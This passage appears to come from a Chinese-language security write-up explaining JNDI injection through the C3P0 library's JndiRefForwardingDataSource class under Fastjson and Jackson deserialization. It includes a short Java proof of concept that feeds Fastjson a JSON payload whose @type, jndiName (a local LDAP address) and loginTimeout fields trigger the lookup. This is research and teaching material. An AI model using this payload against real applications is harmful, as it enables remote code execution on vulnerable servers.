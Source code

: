 于是, 在`Fastjson`、`Jackson`等环境下, 调用`JndiRefConnectionPoolDataSource`类的`jndiname`、`logintimeout`属性的`setter`方法, 向`jndiname`传入恶意`RMI`服务器地址, 然后调用`logintimeout#setter`方法使受害机去`lookup`设置好的`jndiname`中的恶意地址, 造成`JNDI`注入.

### POC

```java
package org.h3rmesk1t.C3P0;

import com.alibaba.fastjson.JSON;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/17 3:34 下午
 */
public class C3P0JNDI {

    public static void main(String[] args) throws Exception {

        String poc = "{\"@type\": \"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",\n"+"\"jndiName\": \"ldap://127.0.0.1:1389/ciedhl\",\n"+"\"loginTimeout\": 0}";
        JSON.parseObject(poc);
    }

}
```

<div align=center><img src="./images/15.png"></div>
